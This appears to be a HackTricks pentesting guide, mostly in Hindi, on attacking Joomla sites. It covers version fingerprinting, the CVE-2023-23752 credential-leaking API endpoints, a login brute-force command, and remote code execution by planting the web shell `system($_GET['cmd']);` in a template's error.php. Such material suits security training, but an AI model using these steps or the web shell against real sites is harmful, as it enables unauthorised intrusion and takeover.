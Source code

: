 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**मोबाइल सुरक्षा** में अपनी विशेषज्ञता को 8kSec अकादमी के साथ गहरा करें। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}

### Joomla Statistics

Joomla कुछ गुमनाम [उपयोग सांख्यिकी](https://developer.joomla.org/about/stats.html) एकत्र करता है जैसे Joomla, PHP और डेटाबेस संस्करणों का विभाजन और Joomla इंस्टॉलेशन पर उपयोग में आने वाले सर्वर ऑपरेटिंग सिस्टम। इस डेटा को उनके सार्वजनिक [API](https://developer.joomla.org/about/stats/api.html) के माध्यम से क्वेरी किया जा सकता है।
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* **मेटा** की जांच करें
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Version

* In **/administrator/manifests/files/joomla.xml** आप संस्करण देख सकते हैं।
* In **/language/en-GB/en-GB.xml** आप Joomla का संस्करण प्राप्त कर सकते हैं।
* In **plugins/system/cache/cache.xml** आप एक अनुमानित संस्करण देख सकते हैं।

### Automatic
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology एक अनुभाग है जो CMS स्कैनर्स के बारे में है**](./#cms-scanners) जो Joomla को स्कैन कर सकते हैं।

### API अनधिकृत जानकारी का प्रकटीकरण:

संस्करण 4.0.0 से 4.2.7 अनधिकृत जानकारी के प्रकटीकरण (CVE-2023-23752) के प्रति संवेदनशील हैं जो क्रेड्स और अन्य जानकारी को डंप करेगा।

* उपयोगकर्ता: `http://<host>/api/v1/users?public=true`
* कॉन्फ़िग फ़ाइल: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF मॉड्यूल**: `scanner/http/joomla_api_improper_access_checks` या रूबी स्क्रिप्ट: [51334](https://www.exploit-db.com/exploits/51334)

### ब्रूट-फोर्स

आप इस [स्क्रिप्ट](https://github.com/ajnik/joomla-bruteforce) का उपयोग लॉगिन को ब्रूट फोर्स करने के लिए कर सकते हैं।
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

यदि आप **admin credentials** प्राप्त करने में सफल हो गए हैं, तो आप **RCE अंदर** प्राप्त कर सकते हैं **PHP कोड** का एक स्निपेट जोड़कर **RCE** प्राप्त करने के लिए। हम इसे **template** को **कस्टमाइज़** करके कर सकते हैं।

1. **`Templates`** पर **क्लिक करें** जो `Configuration` के तहत नीचे बाईं ओर है ताकि टेम्पलेट मेनू खुल सके।
2. एक **template** नाम पर **क्लिक करें**। आइए हम **`protostar`** को `Template` कॉलम हेडर के तहत चुनते हैं। यह हमें **`Templates: Customise`** पृष्ठ पर ले जाएगा।
3. अंत में, आप एक पृष्ठ पर क्लिक कर सकते हैं ताकि **पृष्ठ स्रोत** खुल सके। आइए हम **`error.php`** पृष्ठ को चुनते हैं। हम कोड निष्पादन प्राप्त करने के लिए एक **PHP one-liner** जोड़ेंगे जैसा कि निम्नलिखित है:
1. **`system($_GET['cmd']);`**
4. **सहेजें और बंद करें**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## From XSS to RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Joomla शोषण स्क्रिप्ट जो **XSS को RCE या अन्य महत्वपूर्ण कमजोरियों में बढ़ाती है**। अधिक जानकारी के लिए [**इस पोस्ट**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html) की जांच करें। यह **Joomla संस्करण 5.X.X, 4.X.X, और 3.X.X के लिए समर्थन प्रदान करता है, और अनुमति देता है:**
* _**Privilege Escalation:**_ Joomla में एक उपयोगकर्ता बनाता है।
* _**(RCE) Built-In Templates Edit:**_ Joomla में एक Built-In Templates को संपादित करता है।
* _**(Custom) Custom Exploits:**_ तृतीय-पक्ष Joomla प्लगइन्स के लिए कस्टम शोषण।

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Mobile Security** में अपनी विशेषज्ञता को 8kSec Academy के साथ गहरा करें। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) की जांच करें!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) या **हमारे साथ** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}

